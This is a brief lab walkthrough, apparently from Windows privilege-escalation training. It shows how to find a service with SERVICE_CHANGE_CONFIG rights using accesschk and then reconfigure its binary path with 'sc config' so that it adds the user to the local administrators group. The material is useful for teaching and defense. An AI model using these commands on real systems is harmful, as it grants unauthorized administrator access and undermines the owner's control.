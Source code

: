 # Escalation Via Binary Paths

Windows VM

1\. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc Everyone *`

OR JUST CHECK IN PowerUp

2\. Notice that the output suggests that the user “User-PC\User” has the “SERVICE\_CHANGE\_CONFIG” permission.

Exploitation

Windows VM

1\. In command prompt type: `sc config daclsvc binpath= "net localgroup administrators user /add"`\
2\. In command prompt type: `sc start daclsvc`\
3\. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
